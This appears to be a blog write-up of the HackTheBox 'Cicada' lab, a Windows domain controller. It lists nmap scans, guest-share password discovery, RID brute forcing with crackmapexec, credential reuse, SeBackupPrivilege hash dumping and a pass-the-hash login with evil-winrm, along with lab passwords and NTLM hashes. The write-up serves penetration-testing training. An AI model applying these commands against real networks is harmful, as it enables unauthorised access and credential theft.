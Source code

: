 ```yaml
---
layout: post
title: "HackTheBox: Cicada - Writeup 01/10/2024"
description: A writeup for Hackthebox Cicada
date:   2024-10-01 12:06:31 +0000
image:  '/images/post/cicada.jpg'
tags:   [HackTheBox,htb]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/cicada/scans; cd ~/ctf/HackTheBox/cicada`
IP Address: 10.10.11.35


`echo "10.10.11.35 cicada.htb" | sudo tee -a /etc/hosts`
10.10.11.35 cicada.htb

***
### Enumeration 

`nmap -sC -sV -Pn -p- cicada.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 cicada.htb`
```
# nmap findings


PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack
88/tcp    open  kerberos-sec   syn-ack
135/tcp   open  msrpc          syn-ack
139/tcp   open  netbios-ssn    syn-ack
389/tcp   open  ldap           syn-ack
445/tcp   open  microsoft-ds   syn-ack
464/tcp   open  kpasswd5       syn-ack
593/tcp   open  http-rpc-epmap syn-ack
636/tcp   open  ldapssl        syn-ack
5985/tcp  open  wsman          syn-ack
50767/tcp open  unknown        syn-ack

```



Found Note from HR.txt in SMB guest share 
```

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp

```

Using RID/ SID Brute forcing we get the following 
`lookupsid.py guest@10.10.11.35 -no-pass`
`crackmapexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
`
```


Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.10.11.35
[*] StringBinding ncacn_np:10.10.11.35[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```

```
User list:
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
using crackmapexec we get `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

![a3dc4c40b6f42502459af7e6395c1254.png]({{site.baseurl}}/images/post/a3dc4c40b6f42502459af7e6395c1254.png)

we get another password from description
`david.orelious:aRt$Lp#7t*VQ!3`


We get access to dev share 
![34441f2039f6b63a54906459f729cc07.png]({{site.baseurl}}/images/post/34441f2039f6b63a54906459f729cc07.png)

in dev share we find password for emily.oscars
![a657aa4feeb1cc95ddea85677ba42e46.png]({{site.baseurl}}/images/post/a657aa4feeb1cc95ddea85677ba42e46.png)

`emily.oscars:Q!3@Lp#M6b*7t*Vt`


***
# user flag
Location: C:\Users\emily.oscars.CICADA\Desktop | Flag: e83a7##################################
```

***
#### Privilege Escalation

```

using assigned privileges we use **SeBackupPrivilege**
![dac3b5623835eb4b5f326cc61c9692a4.png]({{site.baseurl}}/images/post/dac3b5623835eb4b5f326cc61c9692a4.png)
![f64d2c81ec0ab99f35e7378c710d136b.png]({{site.baseurl}}/images/post/f64d2c81ec0ab99f35e7378c710d136b.png)
![f6bf22feda995b69a53d929da6340581.png]({{site.baseurl}}/images/post/f6bf22feda995b69a53d929da6340581.png)
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

using Pass-the-hash `evil-winrm -i 10.10.11.35 -u 'administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' 
`


# root flag
Location: :\Users\Administrator\Desktop | Flag: b1dc7##################################
```

```
